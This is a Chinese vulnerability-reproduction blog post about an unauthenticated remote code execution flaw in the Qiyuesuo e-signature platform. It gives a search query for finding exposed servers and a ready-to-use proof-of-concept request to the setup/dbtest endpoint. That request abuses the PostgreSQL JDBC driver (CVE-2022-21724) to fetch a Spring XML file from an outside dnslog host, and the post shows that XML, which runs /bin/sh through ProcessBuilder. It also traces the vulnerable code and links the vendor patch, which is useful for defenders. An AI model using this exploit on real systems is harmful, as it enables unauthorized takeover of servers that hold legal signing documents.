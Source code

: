 > **原文链接**: https://mp.weixin.qq.com/s?__biz=MzkyNTYxNDAwNQ==&mid=2247484848&idx=1&sn=0c246e7c7d0c64ac63f1f953807c0390

#  【漏洞复现】契约锁远程代码执行漏洞  
PokerSec  PokerSec   2025-06-15 01:00  
  
**先关注，不迷路.**  
## 免责声明  
  
       请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
## 漏洞介绍  
  
契约锁是一个电子签章及印章管控平台，提供的电子文件具有与纸质文件一样的法律效力。近日，契约锁发布安全补丁修复了远程代码执行漏洞。该漏洞允许未经过身份认证的攻击者可以利用该漏洞在契约锁管理端上执行任意代码，从而完全控制服务器。。  
## 语法  

```
app=&#34;契约锁-电子签署平台&#34;&& port=&#34;9181&#34;
```

  
## 漏洞复现  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJLIeLiauNbYyBTjFjR1FC83LAS14MYIqH3FFRfsiabBzNzOdJIFIoicH0ibLXKOkRDTg9kflIAhljz3dA/640?wx_fmt=png&from=appmsg "")  
  
POC:  
  
(这微信页面直接复制代码格式会乱，可以浏览器打开复制)  

```
/setup/dbtest
/api/setup/dbtest?db=POSTGRESQL&host=localhost&port=5321&username=root&name=test%2F%3FsocketFactory%3Dorg%2Espringframework%2Econtext%2Esupport%2EClassPathXmlApplicationContext%26socketFactoryArg%3Dhttp%3A%2F%2Fxxx.dnslog.cn%2F1%2Exml
```

  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJLIeLiauNbYyBTjFjR1FC83LLFg7QvRKdVwiaUJxUfQ2Qtv8Qnv1YLstLf4jRVSw9hHGRtiaF3bI954A/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJLIeLiauNbYyBTjFjR1FC83LC9YjYgDxruqEBsqtMGZoTFGvfRhVTaKg6QRXIFIKp6soIEjQMicXpBA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJLIeLiauNbYyBTjFjR1FC83L294poZhoY4FwsgKYwIH3eWDxibHjibJcLTqXJd7OtOwNiaXBayNcQytdw/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJLIeLiauNbYyBTjFjR1FC83LLaUwNIAibJBqhZ1GUnibYr1g4tx3RicKpKggTo2IGwfF3sbtfF92fMLWw/640?wx_fmt=png&from=appmsg "")  
  
## 漏洞分析  
  
接口位置：  

```
qiyuesuo\privoss.jar!\BOOT-INF\classes\com\qiyuesuo\setup\SetupController.class
```

  
参数为db、name、host、port、username、password  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJLIeLiauNbYyBTjFjR1FC83LygSuTbahJbpWbwyFH8l6vKnRzficmpVic4lLBtMeG5karMqY0ib9Of9Nw/640?wx_fmt=png&from=appmsg "")  
  
跟进validateDatabase 方法 ，来到  

```
privoss.jar!\BOOT-INF\classes\com\qiyuesuo\setup\SetupService.class
```

  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJLIeLiauNbYyBTjFjR1FC83LyuxDIggeTf89PRy9l6wAkKxl25B5SibLsImrLhDWO7BswFkAAUmoc9Q/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJLIeLiauNbYyBTjFjR1FC83LiaS7GY3Tv7Z5mtHooDU8At2ME5sHYicnyb8qIgJFuEQs3NvdliadwibesQ/640?wx_fmt=png&from=appmsg "")  
  
跟进  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJLIeLiauNbYyBTjFjR1FC83L32RRS1tw1gQeBvBzmGht0WqcicgOgXFskqXgb4EpZRfoiarN8RQH98Ug/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJLIeLiauNbYyBTjFjR1FC83LwvEuXHOfnIEFUNQb9hdgytQbN3kfgKficvukgogAdLZWE7a8ySCQxKw/640?wx_fmt=png&from=appmsg "")  
  
支持的jdbc  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJLIeLiauNbYyBTjFjR1FC83LjmdTJaWbBrYoseygcdqIbKcpiclfzUHZtARLFYFlPfClMCE3KcEd4GA/640?wx_fmt=png&from=appmsg "")  
  
漏洞利用的是PostgreSQL JDBC Driver RCE（CVE-2022-21724）  

```
<beans xmlns=&#34;http://www.springframework.org/schema/beans&#34;
       xmlns:xsi=&#34;http://www.w3.org/2001/XMLSchema-instance&#34;
       xmlns:p=&#34;http://www.springframework.org/schema/p&#34;
       xsi:schemaLocation=&#34;http://www.springframework.org/schema/beans
        http://www.springframework.org/schema/beans/spring-beans.xsd&#34;>
   <bean id=&#34;exec&#34; class=&#34;java.lang.ProcessBuilder&#34; init-method=&#34;start&#34;>
        <constructor-arg>
          <list>
            <value>/bin/sh</value>
            <value>-c</value>
            <value>touch /tmp/test</value>
          </list>
        </constructor-arg>
    </bean>
</beans>
```

  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJLIeLiauNbYyBTjFjR1FC83LY8dYp2TTzdBVFcHoHAXIf7RhHUDIhcUqrvpA4rBwFNY92nFr9xAvNg/640?wx_fmt=png&from=appmsg "")  
## 修复意见  
##   
  
官方已更新补丁，及时更新最新版本：https://www.qiyuesuo.com/more/security/servicepack  
  
  
如有侵权，请及时联系删除。  
  
  
